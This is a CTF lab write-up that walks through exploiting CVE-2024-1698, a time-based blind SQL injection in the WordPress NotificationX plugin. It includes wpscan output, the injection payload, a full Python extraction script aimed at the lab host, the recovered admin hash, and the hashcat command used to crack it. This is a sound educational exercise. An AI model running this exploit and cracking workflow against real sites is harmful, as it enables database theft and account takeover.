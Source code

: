 # CTF Week #8 (SQL Injection)

## Recognition

In this CTF, the goal was to extract the admin password of a given WordPress website.

The website is hosted at http://44.242.216.18:5008. After accessing, we see the welcome page of the website of "SecureHosting", which points that they use high security technologies. Not much is very relevant in this page aside from a push notification on the right left corner, about a comment from a "concerned-hacker".

<p align="center" justify="center">
  <img src="./assets/CTF8/welcome.png"/>
</p>

The comment is on a post made by the admin. According to this user, they have cracked the admin password from the "n00b security firm" admin, and they point that the admin password starts with `$P$B`. They also put a link to the videoclip of the song [We Will Rock You](https://www.youtube.com/watch?v=-tJYN-eG1zk), by Queen.
The visitor can also leave a reply but, besides that, nothing major is found.

<p align="center" justify="center">
  <img src="./assets/CTF8/comment.png"/>
</p>

## CVE Research

We started by gathering information about the website, specifically the installed software. To gather additional information, we used the `wpscan` tool with the command: `wpscan --url http://44.242.216.18:5008/`.

The output (Irrelevant parts of the output have been omitted for clarity):

```
[+] URL: http://44.242.216.18:5008/ [44.242.216.18]
[+] Started: Sat Nov 16 22:22:53 2024

Interesting Finding(s):

[+] WordPress version 6.7 identified (Latest, released on 2024-11-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://44.242.216.18:5008/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/comments/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/sample-page/feed/, <generator>https://wordpress.org/?v=6.7</generator>

[i] Plugin(s) Identified:

[+] notificationx
 | Location: http://44.242.216.18:5008/wp-content/plugins/notificationx/
 | Last Updated: 2024-10-27T10:43:00.000Z
 | [!] The version is out of date, the latest version is 2.9.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 2.8.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt

```

As we can see, the `wpscan` tool identified that the NotificationX plugin was outdated (latest version: 2.9.2), which presented a possible attack vector.

Using the [CVE database](https://cve.mitre.org/), we queried for vulnerabilities affecting:

* WordPress version 6.7
* NotificationX version 2.8.1
* SQL Injection 

Performing this search, the most relevant vulnerability is `CVE-2024-1698`, which is a known vulnerability with a 9.8 CRITICAL CVSS score, that works on NotificationX plugin for WordPress in all versions up to and including 2.8.2 (patched in 2.8.3). The plugin is vulnerable to SQL Injections via the `type` parameter on the `notificationx/v1/analytics` endpoint.

This vulnerability can be used to obtain any information from the website database, but normally servers store the hash from the password instead of the password itself, so it is important to understand what hash policy do they use. The only type of information we currently have is that the admin password starts with `$P$B`. We can verify, after a quick Google search, we verify that the hash matches a [phpass](https://www.onlinehashcrack.com/how-phpass-hashing-algorithm-works.php) ("Portable PHP password hashing framework") hash, which is commonly used for PHP applications, including WordPress websites, and use the prefix `$P$` or `$H$` to identify the hash algorithm.

## Exploit

To exploit the vulnerability, we used the script found in this [GitHub repository](https://github.com/shanglyu/CVE-2024-1698).

Some explanation:

The exploit works by using blind SQL injection with a timing-based side-channel to infer information about the database. The vulnerability lies in the `type` parameter, which is passed into an SQL query without proper sanitization.

The attacker sends payloads that include the `SLEEP()` function to create a delay if a condition is true.
```sql
IF(ASCII(SUBSTRING((SELECT user_pass FROM wp_users WHERE id=1), <letter_position>, 1))=<letter>, SLEEP(10), NULL)-- -
```
It checks if `<letter_position>` character of the admin's password hash has an ASCII value `<letter>`, and, if it is true, it will perform a 10 second delay. Therefore, by going through each ASCII character in in creasing order, and assuming that the delay time is not reached with the previous requests, we character that matches the one in the database text will be the one being processed when the end of the delay is reached. The code from the repository automates this process.

This is the code for the attack: We changed the delay from `0.3` to `10`, since the server was relatively slow to respond, which made the assumption we mentioned previously not hold and the script guess the wrong characters.

```py
import requests
from sys import exit

delay_time = 10

url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

session = requests.Session()

query_user = "SELECT user_login FROM wp_users WHERE id=1"
query_pass = "SELECT user_pass FROM wp_users WHERE id=1"

def get_data(query,field_name):
    result = ""
    for char_position in range(1,40):
        for ascii_value in range(256):
            payload = {
                "nx_id" : 10,
                "type" : f"clicks`=IF(ASCII(SUBSTRING(({query}),{char_position},1)) = {ascii_value}, sleep({delay_time}),null)-- -"
            }
            response = session.post(url, data=payload)
            
            if response.elapsed.total_seconds() > delay_time:
                result += chr(ascii_value)
                print(result)
                if ascii_value == 0: #null byte
                    print(f"[*]{field_name} : {result}")
                    return result
                break

username = get_data(query_user, "Username")
password_hash = get_data(query_pass, "Password hash")
```

The script gave the following output:

<p align="center" justify="center">
  <img src="./assets/CTF8/result.png"/>
</p>

Here, we can see that the hashed admin's password is `$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10`.

## Reversing the Hash

Now that we know the password hash, we need to use it to find the password. Since we are talking about a phpass hash, we can use a program like `hashcat`, an advanced password recovery utility, which allows to reverse hashes through multiple methods.

We could try to perform a brufe-force attack, which would be inefficient. Instead, we can perform a dictionary attack to test for common password. As hinted in the hacker comment, we can use the `rockyou.txt` dictionary for this purpose, which we downloaded from this [link](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

From there, we placed the hash inside the file `hash.txt` and executed the following command: 

```bash
hashcat -O -m 400 -a 0 -o cracked.txt hash.txt rockyou.txt
```

The used flags signify:

  - `-O`: Enable optimized kernels (which limits password lengths)
  - `-m 400`: Specify the phpass hash type
  - `-a 0`: Perform a dictionary based attack
  - `-o cracked.txt`: Place the found password in the file `cracked.txt`

After executing the command, we find the admin password and successfully complete the CTF!

<p align="center" justify="center">
    <img src="./assets/CTF8/dehashed.png">
</p>